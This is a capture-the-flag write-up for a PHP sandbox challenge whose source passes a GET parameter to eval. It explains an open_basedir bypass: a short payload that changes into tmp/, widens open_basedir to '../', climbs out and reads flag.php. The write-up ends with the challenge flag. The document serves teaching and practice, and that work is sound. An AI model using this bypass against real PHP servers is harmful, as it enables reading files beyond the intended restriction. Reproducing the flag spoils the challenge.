


In this challenge, we need to escape from the sandbox, this is the source code:
```php
 <?php
ini_set('open_basedir', '/sandbox');
chdir('/sandbox');

ini_set('display_errors', 'on');
ini_set('error_reporting', E_ALL);

if (isset ($_GET['c'])) {
    die (eval ($_GET['c']));
}
?>
```

The trick is going to `/tmp` dir, which should exist in the `sandbox`, because it exists in every basedir.
I used this paper https://flagbot.ch/posts/phuck3/.

Then, we will "tighten" the sandbox, by extending it to be also in `../`, because it still in the sandbox:



Notice he created new dir by using `mkdir`, but we can't use that, because it's restricted, so we use the trick of `/tmp`.

This would be our final payload:
```php
chdir('tmp/');
ini_set("open_basedir","/sandbox:../");
chdir("../");
chdir("../");
echo file_get_contents("flag.php");
```

check in the source code, this is in comment:



**Flag:** ***`WEBSEC{Cheers_to_Blaklis_for_his_phuck3_challenge_for_Insomnihack_2019}`*** 
